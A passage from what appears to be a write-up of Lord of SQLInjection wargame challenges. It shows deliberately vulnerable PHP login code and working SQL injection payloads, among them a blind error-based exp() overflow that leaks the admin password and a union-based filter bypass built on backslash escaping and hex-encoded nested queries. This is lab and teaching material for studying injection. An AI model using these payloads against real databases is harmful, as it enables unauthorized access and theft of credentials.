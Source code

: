payload: exp(800\*if(id="admin" and ord(substr({pw},{i},1))={j} , 1, 0))

if false 800 \* 0 = 0 => rubiya805 , if true 800 \* 1 = 800 => DOUBLE value is out of range => rubiya805 not in r.text

## Green\_Dragon(bypass filter)

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysqli_fetch_array(mysqli_query($db,$query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```

payload: id=\\\&pw= union select char(92),0x20756e696f6e2073656c656374203078363136343664363936652d2d202d-- -

char(92) = \ , hex = union select 0x61646d696e-- -

<figure><img src=".gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Red\_Dragon(numeric)

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\./i', $_GET['id'])) exit("No Hack ~_~");
  if(strlen($_GET['id']) > 7) exit("too long string");
  $no = is_numeric($_GET['no']) ? $_GET['no'] : 1;
  $query = "select id from prob_red_dragon where id='{$_GET['id']}' and no={$no}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $query = "select no from prob_red_dragon where id='admin'"; // if you think challenge got wrong, look column name again.
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['no'] === $_GET['no']) solve("red_dragon");
  highlight_file(__FILE__);
?>
```